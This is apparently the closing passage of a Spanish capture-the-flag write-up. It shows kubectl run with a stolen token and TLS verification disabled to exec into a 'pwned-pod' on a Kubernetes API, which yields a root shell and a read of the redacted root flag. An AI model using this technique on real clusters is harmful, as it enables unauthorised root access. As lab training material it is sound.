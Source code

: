 ```bash
╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 -n default exec -it pwned-pod bash            ─╯
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.

root@pwned-pod:/# id
uid=0(root) gid=0(root) groups=0(root)
root@pwned-pod:/# cat /pwned/root/root.txt
flag{[REDACTADO]}
```
¡Y hemos rooteado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!